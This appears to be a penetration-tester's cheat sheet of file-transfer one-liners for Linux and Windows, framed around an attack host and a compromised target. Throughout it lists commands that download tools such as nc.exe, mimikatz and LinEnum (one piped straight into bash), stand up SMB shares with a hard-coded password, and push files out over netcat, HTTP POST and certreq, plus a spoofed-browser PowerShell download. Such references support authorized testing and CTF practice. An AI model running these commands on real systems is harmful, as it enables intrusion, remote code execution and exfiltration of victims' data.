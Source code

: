 # File Transfert - 

% linux, windows

## Download a file using Bitsadmin
```
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## Download a file using Wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## Download a file using cURL
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Download a file using PHP
```
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

## Upload a file using SCP
```
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

## Download a file using SCP
```
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/
```

## Uses smbserver.py with password support (in case GPO blocks anonymous access) to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share $(pwd)
```
## Mount disk on a drive
```
Cmd > net use Z: \\10.10.14.153\share /u:snovvcrash 'Passw0rd!'
```

## Python2 - urlretrieve
```
python2.7 -c 'import urllib;urllib.urlretrieve ("<URL>", "<file>")'
```
## Python3 - urlretrieve
```
python3 -c 'import urllib.request;urllib.request.urlretrieve("<URL>", "<file>")'
```

## PHP - download file file_get_content()
```markdown
php -r '$file = file_get_contents("<URL>"); file_put_contents("<file>",$file);'
```

## PHP - download file fopen()
```markdown
php -r 'const BUFFER = 1024; $fremote = fopen("<URL>", "rb"); $flocal = fopen("<file>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

## PHP - Download and pipe it to bash
```
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby - download a file
```markdown
ruby -e 'require "net/http"; File.write("<file>", Net::HTTP.get(URI.parse("<URL>")))'
```
## Python - upload/POST a file
```
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/upload",files={"files":open("<file>","rb")})'
```

## nc - send file to compomised host
```
nc -q 0 <IP> <PORT> < <file>
```

## nc - send file to compomised host
```
nc -l -p <PORT> -q 0 < <file>
```

## netcat - send file to compomised host
```
ncat --send-only  <IP> <PORT> < <file>
```

## nc - recv file from listening port
```
nc -l -p <PORT> > <file>
```

## netcat - recv file from listening port
```
netcat -l -p <PORT> --recv-only > <file>
```

## certreq - upload/POST file
```markdown
certreq.exe -Post -config <URL> <output_file>
```

## Bitstransfert - file donwload
```markdown
Import-Module bitstransfer; Start-BitsTransfer -Source "<URL>" -Destination "<output_file>"
```

## chrome user agent - download file
```
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://<IP>:<PORT>/<file> -UserAgent $UserAgent -OutFile "<outfile>"
```
